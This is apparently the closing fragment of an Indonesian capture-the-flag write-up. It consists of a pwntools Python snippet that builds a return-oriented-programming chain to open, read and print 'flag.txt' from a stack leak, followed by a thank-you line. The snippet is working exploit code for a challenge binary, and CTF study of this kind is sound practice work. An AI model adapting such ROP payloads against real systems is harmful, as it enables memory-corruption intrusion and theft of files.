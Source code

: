 ```py
add(0, 0x130, p64(ret)*10 + p64(pop_rsi) + p64(stack_leak-0xd8) + p64(pop_rdx) + p64(0)*2 + p64(pop_rcx) + b"flag.txt" + p64(0) + p64(pop_rdi) + p64(2) + p64(syscall) + 
    p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x1000)*2 + p64(read_func) + 
    p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(stack_leak) + p64(pop_rdx) + p64(0x50)*2 + p64(write_func))

p.interactive()
```

Terima kasih telah membaca :)

